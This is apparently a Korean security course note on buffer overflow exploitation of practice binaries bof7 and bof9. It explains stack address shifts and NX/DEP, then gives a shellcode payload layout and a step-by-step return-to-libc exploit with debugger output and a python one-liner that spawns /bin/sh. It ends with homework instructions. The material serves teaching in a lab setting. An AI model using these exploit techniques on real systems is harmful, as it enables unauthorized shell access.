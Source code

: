 # 익스플로잇(3)

## bof7 논란

**__일단 bof7 자체에는 아무런 오류도 없었음.__**

### 사전 지식 : 전달되는 `main` 함수 인자의 길이에 따라서 `buf` 의 주소값이 달라진다. 

![addr](addr.PNG)

왜 달라질까? 다음과 같은 간단한 C 프로그램으로 테스트를 해보자. 

```c
#include <stdio.h>
#include <stdlib.h>

#define RED     "\033[31m"
#define GREEN   "\033[32m"
#define BLUE    "\033[34;1m"
#define RESET   "\033[0m"

int main(int argc, char * argv[]){
    if (argc < 2) {
        fputs(RED "Please pass some arguments...\n" RESET , stderr);
        return 1;
    }
    int stack = 78;
    int stack2 = 23;
    char * environment_variable = getenv("PATH");

    printf( GREEN "Stack section " RESET " : " BLUE "%p\n", &stack);
    printf( GREEN "              " RESET " : " BLUE "%p\n", &stack2);
    printf( GREEN "Main arg-argc " RESET " : " BLUE "%p\n", &argc);
    printf( GREEN "     arg-argv " RESET " : " BLUE "%p\n", argv);
    printf( GREEN "     argv[1]  " RESET " : " BLUE "%p\n", argv[1]);
    printf( GREEN "Environment   " RESET " : " BLUE "%p\n", environment_variable);
    printf(RESET "All of these are Virtual Address\n\n");
    return 0;
}
```

테스트는 각각 짧은 인자를 전달할 경우, 긴 인자를 전달할 경우 스택의 주소값이 어떻게 바뀌는지 관찰하는 것으로 진행하자. 그 결과는 다음과 같았다. 

![result](result.PNG)

인자를 `a` 만 전달했을 경우 `argv[1]` 의 주소값은 `0x7fffffffe75a` 이고 스택 영역의 두 변수의 주소값은 각각 `0x7fffffffe3b0` 과 `0x7fffffffe3b4` 였다.

그런데 인자를 `aaaaaaaaaaaaaa` 로 좀 더 많이 전달했을 때 `argv[1]` 의 주소값은 `0x7fffffffe74e` 이고 스택 영역의 두 변수의 주소값은 각각 `0x7fffffffe3a0` 과 `0x7fffffffe3a4` 가 되었다. 

즉 `main` 함수에 전달된 인자가 길 경우 `argv[1]` 의 주소값과 스택영역의 주소들이 좀 더 밑으로 내려 온다. 프로세스에 할당되는 메모리 구조를 다시 떠올려보자. 

![process mem](https://notes.shichao.io/tlpi/figure_6-1.png)

`main` 함수에 할당되는 인자는 위 그림에서 스택 바로 위쪽에 있는 `argv` 의 위치에 들어가는데 인자가 클 경우 메모리를 좀 더 사용해서 스택 영역을 더 밑으로 내려가게 만든다고 볼 수 있다. 

### bof7 의 buf 의 주소값이 인자의 길이에 따라 달라진다 

![bof7arg](bof7arg.PNG)

위와 같이 인자로 `a` 를 10 개 전달했을 때와 `a` 를 20 개 전달했을 때 `buf` 의 주소값이 각각 `0x7fffffffe490` 과 `0x7fffffffe480` 으로 달라진다. 이제는 그 이유를 이해할 수 있다. 인자가 더 길 경우에 스택 영역이 메모리에서 더 밑으로 위치하기 때문에 메모리 주소값이 더 낮아진다. 

그런데 우리는 `buf` 와 `return address` 까지의 거리가 **136** 이라는 것을 이미 알아냈고 그 이후에 **8** 바이트 주소값을 덮어써야 하는 상황이다. 그러므로 결론적으로 bof7 을 익스플로잇 하기 위하여 전달해야 할 인자의 길이는 **144** 바이트이다. 따라서 먼저 **144** 바이트 인자를 전달해 보고 그때 당시의 `buf` 의 주소값을 알아내야 한다. 

![bof7144](bof7144.PNG)

그러면 위와 같이 `buf` 의 주소값이 `0x7fffffffe410` 이라는 것을 알 수 있다. 즉 인자의 길이가 **144 바이트 일 때** `buf` 의 주소가 그렇게 위치한다는 것이다. 따라서 이 주소로 리턴 어드레스를 덮어써야 한다. 

### 익스플로잇

페이로드를 생각해보면 다음과 같이 될 것이다. 

| 쉘 코드 | 쓰레기 값 | 리턴 어드레스 | **총** |
|:----------:|:------:|:----:|:-----:|
| 27 바이트| 109 바이트 | 8 바이트   | **144 바이트** |

그렇게 페이로드를 설정하고 익스플로잇을 시도해보자. 

![exp](exp.PNG)

먼저 위와 같이 **144** 바이트를 때려 넣어서 인자가 **144** 바이트일 때 `buf` 의 주소값을 확인하다. 그러고 나서 `쉘 코드 + 쓰레기 값 + 리턴 주소값` 으로 익스플로잇을 시도하는데 이때의 리턴 주소값은 방금 확인한 `buf` 의 주소값으로 설정하면 된다. 

## NX bit 또는 DEP

우리는 지금까지 실행권한이 있는 스택에서 쉘 코드를 삽입하여 BOF 로 해킹을 해보았다. 하지만 현대의 대부분의 프로그램은 스택에서 실행권한을 제거한다.  

```c
#include <unistd.h>

int main(void){
    pause();
    return 0;
}
```

위와 같은 매우 간단한 C 프로그램을 만들고 종료되지 않도록 pause() 함수를 사용해보자. 

```shell
gcc test.c
./a.out
```

그리고 컴파일 한 후 실행하자. 

```shell
ps -ef | grep a.out
cat /proc/2464/maps
```

프로세스 번호를 확인하고, 만약 PID 가 2464 라면, 위와 같이 메모리 매핑을 확인하자. 

```shell
555555554000-555555555000 r-xp 00000000 ca:01 256165                     /home/ubuntu/a.out
555555754000-555555755000 r--p 00000000 ca:01 256165                     /home/ubuntu/a.out
555555755000-555555756000 rw-p 00001000 ca:01 256165                     /home/ubuntu/a.out
...
7ffffffde000-7ffffffff000 rw-p 00000000 00:00 0                          [stack]
ffffffffff600000-ffffffffff601000 r-xp 00000000 00:00 0                  [vsyscall]
```

그러면 위와 같이 [stack] 의 권한이 `rw-p` 라고 되어있는 것을 볼 수 있다. 반면 가장 낮은 주소에 있는 text 섹션에는 `r-xp` 의 권한이 부여되었다. 스택 영역에는 읽기(`r`) 권한과 쓰기(`w`) 권한만 있는데 비해 실행될 어셈블리어들이 저장되는 텍스트 섹션에는 읽기(`r`) 권한과 실행(`x`) 권한만 존재한다. 

지금까지 BOF 를 연습했었던 프로그램은 `gcc` 에 특수한 옵션(`z execstack`)으로 컴파일해서 스택에 실행권한을 부여했었던 프로그램들이다. 하지만 보통의 프로그램들은 해커들이 스택에 쉘 코드를 삽입해서 해킹을 할 수도 있기 때문에 실행권한이 필요없는 스택 영역에는 실행권한을 제거한다. 

이렇게 실행권한이 제거된 메모리를 절대 실행되지 않는다는 의미로 Never eXecution 한다고 해서 NX 비트라고 한다. 그리고 이 NX 를 윈도우 운영체제에서는 DEP (Data Execution Prevention) 라고 부른다. 이제부터 이 NX 비트를 우회해서 프로그램을 해킹해보자. 

## RTL (Return to Libc)

https://www.lazenca.net/display/TEC/02.RTL%28Return+to+Libc%29+-+x64

## bof9.c 

1. 버퍼와 리턴 어드레스까지의 거리를 구한다. 

    ```shell
    pwndbg> i r rsp      # AT STARTING VULN FUNCTION
         rsp : 0x7fffffffe628
    pwndbg> nextcall     # UNTIL gets FUNCTION
    pwndbg> i r rdi      # CHECK FIRST ARGUMENT of gets FUNCTION
         rdi : 0x7fffffffe610
    pwndbg> p/d 0x7fffffffe628 - 0x7fffffffe610
         $2 = 24
    ```

2. `system` 함수의 주소값을 찾는다.
    
    ```shell
    pwndbg> p system
         $1 = ... 0x7ffff7a52390 <__libc_system>
    ```
3. `/bin/sh` 문자열의 주소값을 찾는다.

    ```shell
    pwndbg> search /bin/sh
         libc-2.23.so    0x7ffff7b99d57 /* '/bin/sh' */
    ```

4. `pop rdi ; ret` 가젯의 주소값을 찾는다.

    ```shell
    $ ldd bof9           # CHECK library used by bof9
    $ ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 | grep "pop rdi ; ret"
         0x0000000000021102 : pop rdi ; ret

    pwndbg> vmmap
        0x7ffff7a0d000     0x7ffff7bcd000 r-xp   1c0000 0      /lib/x86_64-linux-gnu/libc-2.23.so
    pwndbg> p/x 0x0000000000021102 + 0x7ffff7a0d000
        $1 = 0x7ffff7a2e102
    ```

5. payload 를 다음과 같이 제작한다.

    `'A' * (버퍼와 리턴 어드레스까지의 거리)[N 바이트] + (pop rdi ; ret 가젯의 주소)[8 바이트] + (/bin/sh 문자열 주소)[8 바이트] + (system 함수의 주소)[8 바이트]`
    
    ```shell
    payload : [dummy (24)] + ["pop rdi ; ret" (8)] + ["/bin/sh" (8)] + [system (8)]
            $ (python -c "print 'x'*24+'\x02\xe1\xa2\xf7\xff\x7f\x00\x00'+'\x57\x9d\xb9\xf7\xff\x7f\x00\x00'+'\x90\x23\xa5\xf7\xff\x7f\x00\x00'";cat) | ./bof9
    ```

---

## 과제 

### 과제 가이드 

1. 자신의 **security** 디렉토리에 HW-8 디렉토리를 만든다. 

2. [HW-8.md](HW-8.md) 을 다운받아서 HW-8 디렉토리에 저장한다. 

3. HW-8.md 파일의 지시를 따르는 것이 과제이다. 

4. 다 했으면 다음 명령어를 참고해서 커밋 후 푸쉬한다.

5. 월요일에 발표할 수 있을 정도로 과제를 해와야 한다. 

```shell
cd /path/to/security
git add .
git commit -m "complete HW-8!!!"
git push -u origin master
```
